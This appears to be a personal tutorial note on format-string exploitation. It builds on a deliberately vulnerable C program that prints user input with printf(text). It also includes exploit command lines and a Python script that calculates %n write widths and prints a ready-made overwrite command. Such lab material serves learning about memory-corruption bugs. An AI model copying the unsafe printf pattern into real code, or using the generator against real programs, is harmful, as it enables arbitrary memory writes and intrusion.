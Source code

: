 	We are going to use another file for this, `fmt_vuln2.c`

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char text[1024];
    static int test_val = -72;
    static int next_val = 0x11111111;
    if(argc < 2) {
        printf("Usage: %s <text to print>\n", argv[0]);
        exit(0);
    }

    strcpy(text, argv[1]);
    printf("The right way to print user-controlled input:\n");
    printf("%s", text);
    printf("\nThe wrong way to print user-controlled input:\n");
    printf(text);
    printf("\n");
    
    // Debug output
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &test_val, test_val, test_val);
    printf("[*] test_val @ 0x%08x = %d 0x%08x\n", &next_val, next_val, next_val);
    exit(0);
}
```

The only difference is an added address we are going to be overwriting.

So first we want to set the address to: `0x0806abcd`. That means the first address is simple, we just do:

```bash
./fmt_vuln2 `printf "\x20\x90\x55\x56JUNK\x20\x90\x55\x57JUNK\x20\x90\x55\x58JUNK\x20\x90\x55\x59"`%x%x%8x%n
```

We get 

```bash
[*] test_val @ 0x08049794 = 52 0x00000034
```

meaning we need to add to the first value `cd = 205`:
`205 - 52 + 8 = 161`

If we use the usual technique described in [[Format string write address#Overwriting more]], then we can get a `0x000000cd`. That’s good but the next one is somewhat harder since we need to roll over an int. How do we do that?

Well, we have 205 rn, and to roll over to something beginning with `ab`, the easiest target is `1ab = 427`, meaning we have to roll over we need to add `222`.

An other method to calculate would be `256-205+0xab`

Here is some code to calculate everything I was talking about and give you an exploit command:

```python
from sys import argv, exit


if len(argv) != 3:
    print(f"Syntax: python3 {argv[0]} INITIAL_VALUE ADDRESS_TO_WRITE")
    print(
        'INITIAL_VALUE is calculated with: ./program `printf "\\x20\\x90\\x55\\x56"`%x%x%8x%n')
    exit(1)

added = 0

if (input("Was the 8 input mode used? [y|n] : ") == "y"):
    added = 8


initial_value = int(argv[1])
overall_length = 0
final_list = []


def find_right_num(number):
    """This calculates how many times do we need to use 256 for the number"""
    right_num = 256
    while True:
        if right_num > number:
            return right_num
        else:
            right_num += 256


def inc_hex(hex_num, inc):
    """Increments a hex number by x and returns it in the same format"""
    hex_num_int = int("0x" + hex_num, 16)
    return str(hex(hex_num_int + inc))[2:]


def part_to_int(hexnum):
    """Turns part of a hex number to an integer"""
    return int("0x" + hexnum, 16)


def calc_num(num, overall_length):
    """Responsible for calculating the right values for everything but the first number"""
    if num < overall_length or (num - overall_length) < 8:
        return find_right_num(overall_length) - overall_length + num
        print("not yet implemented")
        exit(1)
    else:
        # print(f"{num} - {overall_length}")
        return num - overall_length


def calc_first_num(num, initial_value):
    """Calculates the first number"""
    if num < initial_value:
        print("Not yet implemented.")  # TODO: I was lazy to test how this works for now
        exit(1)
    else:
        return num - initial_value + added


first_num = calc_first_num(
    part_to_int(argv[2][-2] + argv[2][-1]), initial_value)  # gets the first hex part
print(f"1: {first_num}")
final_list.append(first_num)
overall_length = part_to_int(argv[2][-2] + argv[2][-1])


for x in range(1, 4):
    num = part_to_int(
        argv[2][-2 - x * 2] + argv[2][-1 - x * 2])  # gets the right characters from the back
    calculated_number = calc_num(num, overall_length)
    print(f"{x}: {calculated_number}")
    final_list.append(calculated_number)  # append to the list used at command gen
    overall_length += calculated_number  # add to the overall length.

if input("Want me to make you a command? [yes|no] : ") == "yes":
    program = input("Enter the program name: ")
    overwrite = input("Enter the address to overwrite: ")
    owl = []
    for x in range(4):
        adr_part = overwrite[-2 - x * 2] + overwrite[-1 - x * 2]
        owl.append(adr_part)

    first_address = f"\\x{inc_hex(owl[0], 0)}\\x{owl[1]}\\x{owl[2]}\\x{owl[3]}"
    second_address = f"\\x{inc_hex(owl[0], 1)}\\x{owl[1]}\\x{owl[2]}\\x{owl[3]}"
    third_address = f"\\x{inc_hex(owl[0], 2)}\\x{owl[1]}\\x{owl[2]}\\x{owl[3]}"
    fourth_address = f"\\x{inc_hex(owl[0], 3)}\\x{owl[1]}\\x{owl[2]}\\x{owl[3]}"

    first_part = f'`printf "{first_address}JUNK{second_address}JUNK{third_address}JUNK{fourth_address}"`'
    second_part = f"%x%x%{final_list[0]}x%n%{final_list[1]}x%n%{final_list[2]}x%n%{final_list[3]}x%n"
    command = f"{program} {first_part}{second_part}"
    print(command)

```

This is what a final command might look like:
```bash
./fmt_vuln2 `printf "\xf4\x97\x04\x08JUNK\xf5\x97\x04\x08JUNK\xf6\x97\x04\x08JUNK\xf7\x97\x04\x08"`%x%x%161x%n%222x%n%91x%n%258x%n
```

At the calculation we have to pay attention to rolling over numbers.

```ad-important
You can't really set a width lower than 8 characters so roll over if that would be the case.
```

```ad-info
We can use Direct Parameter Access to simplify everything, then we don't have to use "JUNK" and things like that. The syntax is:

`%n$d` this for example prints out the 'n'th decimal.
```

```ad-important
In bash you have to use the backwards slash for `$` signs
```

```ad-info
You can also use `%hn` to write double bytes, meaning you have to do half the work in that aspect.
```

